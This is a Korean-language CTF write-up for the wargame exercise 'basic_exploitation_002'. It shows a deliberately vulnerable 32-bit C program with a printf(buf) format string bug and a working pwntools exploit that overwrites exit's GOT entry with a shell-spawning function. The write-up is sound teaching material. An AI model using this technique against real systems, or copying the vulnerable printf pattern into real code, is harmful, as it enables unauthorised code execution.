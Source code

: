 # Exercise: basic_exploitation_002

**실습 환경**

```c
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

**basic_exploitation_002.c**

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell() {
    system("/bin/sh");
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();

    read(0, buf, 0x80);
    printf(buf);

    exit(0);
}
```
<br>
 
**코드 분석**

`get_shell` 함수가 보이니 목적지는 정해졌고, `printf` 에서 포맷스트링 버그를 일으킬 수 있는 것이 보인다. 그리고 적용 보안기법이 Partial RELRO 인걸 보니 GOT 조작이 먼저 떠오른다. 

<br>

**동적 분석**
<img width="745" height="347" alt="image" src="https://github.com/user-attachments/assets/9fe5cbbc-53ef-46d4-a203-c0436f0405cd" />

일단 got 랑 겟쉘 함수주소 차이를 보니 뒤에 두개만 다르고 나머진 다 같다.   

<br>

<img width="668" height="156" alt="image" src="https://github.com/user-attachments/assets/cc16aa0d-e4ec-444b-af30-2e9fc89ecb24" />


임의로 AAAA 를 넣어보니 `esp+4`에 해당하는 첫 번째 인자에 쓰이고, 여기에서 임의로 잘 쓰면 바로 플래그를 얻을 수 있을것같다.  

pie도 꺼져있겠다 바로 코드를 적어보자.  

<br>

**익스플로잇 코드**

```python
 from pwn import *

p = process('./target')
elf = ELF('./target')

exit_got = elf.got['exit']
get_shell = elf.symbols['get_shell']

payload = fmtstr_payload(1, {exit_got: get_shell}, write_size='short')
p.sendline(payload)
p.interactive()
```
 
pwntools 에 있는 fmtstr_payload를 사용했다.   

직접 계산안해도 되어서 편하게 했다. 양식은 아래에 적어두겠다.  

- `fmtstr_payload(offset, writes, write_size='byte')`
    - `offset` : 몇 번째 인자부터 포맷 스트링으로 사용할지를 의미
    - `writes` : 어떤 주소에 어떤 값을 쓸지 dict 형식으로 전달
        - 예: {0x0804a010: 0x080484b6} → 주소 0x0804a010에 0x080484b6 쓰기
    - `write_size`
        - byte (1바이트 단위)
        - short (2바이트 단위)
        - int (4바이트 단위)
     

<br>

바로 서버에 날려보면?  

<img width="673" height="230" alt="image" src="https://github.com/user-attachments/assets/3f92b00a-f872-4a9b-ac22-04c6510f714f" />


플래그가 나왔다.  
